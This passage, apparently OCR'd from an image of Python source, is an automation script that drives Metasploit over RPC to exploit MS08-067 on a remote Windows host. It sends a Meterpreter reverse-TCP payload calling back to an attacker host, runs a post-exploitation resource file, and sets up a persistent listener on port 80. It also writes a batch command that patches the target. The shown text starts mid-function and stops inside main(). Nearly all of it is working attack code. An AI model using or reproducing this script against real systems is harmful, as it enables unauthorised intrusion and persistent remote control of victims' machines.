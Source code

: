 ```python
     batcomm = "ms08067_patch.exe /quiet"
     post.write(postcomms); bat.write(batcomm)
     post.close(); bat.close()

# Exploits the chain of rc files to exploit MS08-067, setup persistence, and patch
def sploiter(RHOST, LHOST, LPORT, session):
     client = msfrpc.Msfrpc({})
     client.login('msf', '123')
     ress = client.call('console.create')
     console_id = ress['id']

     ## Exploit MS08-067 ##
     commands = """use exploit/windows/smb/ms08_067_netapi
set PAYLOAD windows/meterpreter/reverse_tcp
set RHOST """+RHOST+"""
set LHOST """+LHOST+"""
set LPORT """+LPORT+"""
set ExitOnSession false
exploit -z
"""
     print "[+] Exploiting MS08-067 on: "+RHOST
     client.call('console.write',[console_id,commands])
     res = client.call('console.read',[console_id])
     result = res['data'].split('\n')

     ## Run Post-exploit script ##
     runPost = """use post/multi/gather/run_console_rc_file
set RESOURCE /tmp/smbpost.rc
set SESSION """+session+"""
exploit
"""
     print "[+] Running post-exploit script on: "+RHOST
     client.call('console.write',[console_id,runPost])
     rres = client.call('console.read',[console_id])
     ## Setup Listener for presistent connection back over port 80 ##
     sleep(10)
     listen = """use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 80
set LHOST """+LHOST+"""
exploit
"""
     print "[+] Setting up listener on: "+LHOST+":80"
     client.call('console.write',[console_id,listen])
     lres = client.call('console.read',[console_id])
     print lres

def main():
     parser = optparse.OptionParser(sys.argv[0] + ' -p LPORT -r RHOST -l LHOST')

     parser.add_option('-p', dest='LPORT', type='string', help ='specify a port to listen on')
     parser.add_option('-r', dest='RHOST', type='string', help='Specify a remote host')
     parser.add_option('-l', dest='LHOST', type='string', help='Specify a local host')
     parser.add_option('-s', dest='session', type='string', help ='specify session ID')

     (options, args) = parser.parse_args()
     session=options.session
     RHOST=options.RHOST; LHOST=options.LHOST; LPORT=options.LPORT

     if (RHOST == None) and (LPORT == None) and (LHOST == None):
          print parser.usage
          sys.exit(0)

```
